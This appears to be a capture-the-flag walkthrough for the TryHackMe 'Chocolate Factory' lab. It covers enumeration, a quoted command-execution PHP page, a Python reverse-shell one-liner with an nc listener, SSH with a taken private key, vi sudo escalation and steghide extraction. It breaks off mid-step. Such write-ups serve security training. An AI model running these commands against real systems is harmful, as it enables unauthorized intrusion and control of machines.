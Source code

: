 # Chocolate Factory

![Charlie](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/8b5d62d5-05e3-4c30-a535-8acbab677d09)

## Enumeration

We begin by enumerating the target :

```bash
nmap -sT -sV 10.10.198.134
```
![nmap](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/005c2016-e177-4bdd-99fd-482577aae1cf)

as it shows there are pleny of ports open like `21` , `22`, `80` and other ports.

on port 80 you can see there is a login page :

![loginpage](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/7cf3893c-0f7a-44bf-a7ab-374b23889d0d)

but we don't have any credentials, and **SQLi** attack does not work here.

let's fuzz the website with `ffuf` :
```bash
ffuf -w ~/wordlist/raft-medium-files.txt  -u http://10.10.198.134/FUZZ -fc 403
```

![ffuf](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/f894ce42-01c1-4dde-a574-2eb132bdbece)

yes , we have found 2 new directory : `home.php` and `validate.php`

navigate to `home.php` and there is a input box which you can type a command :

![home](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/46db25de-4d09-4703-8c44-3e267a9fc820)

use `ls` command to see the contents of the current directory :
```
 home.jpg home.php image.png index.html index.php.bak key_rev_key validate.php 
```
download `key_rev_key` file and see the `strings` of it :

```bash
strings key_rev_key
```

![key](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/1617e853-9449-4961-83d9-c91605f31c5d)

note and keep it.

let's download the `index.php.bak` file and see the source code :

```php
<?php
    if(isset($_POST['command']))
    {
        $cmd = $_POST['command'];
        echo shell_exec($cmd);
    }
?>   
```
so we can run any commands here

## Gaining Shell

i use a python3 reverse shell to gain access

on kali linux : 

```bash
nc -lvnp 4444
```

python3 reverse shell :

```python
export RHOST="10.18.57.234";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

we gain the shell as `www-data` 
navigate to `/home/charlie` , here we don't have access to `user.txt` but we can read the content of `teleport` which is charlie private key and `teleport.pub`
save the content of teleport file and ssh to machine with this private key

```bash
ssh -i charlie.key charlie@10.10.198.134
```

now we are user charlie and can cat the content of user.txt and find the first flag:
```bash
cat user.txt
```
## Privilege Escalation

let's see if we can escalate our privileges, i use `sudo -l` to see any sudo permissions that user charlie has :

```bash
sudo -l
```

![sudo](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/0b659a79-d057-4df8-b2c6-4418390e1040)

we can run `/usr/bin/vi` as sudo, then do it and then open another shell within vi and become root
```bash
:!/bin/bash
```

navigate to `/root` we see `root.py`, we need to execute it with python not python3

```python
python root.py
```

![rootpy](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/57b87de9-93b2-4f97-b91f-65222d8bc8aa)

enter the key you found in `key_rev_key` like this :

![root](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/a9fda0e2-bbc1-494b-a754-035d1b313936)

and you find the second flag.

## Charlie Password

To get the charlie password try to login to ftp with `anonymous` user :

```bash
ftp 10.10.198.134
```

![ftp](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/01c16df5-2a33-4e7b-b872-22228a3746e1)

download the image with `get gum_room.jpg` and look to see if any data is embedded inside it :
```bash
steghide info gum_room.jpg
```
it needs a password to show the info, just use a blank password and you see a b64.txt file is embedded inside
decode it :

```bash
cat b64.txt | base64 -d
```

![b64](https://github.com/Git-K3rnel/TryHackMe/assets/127470407/fe129af1-ef4a-4083-aa20-477e02c4bae5)

we need to crack the charlie hashed password, save the last
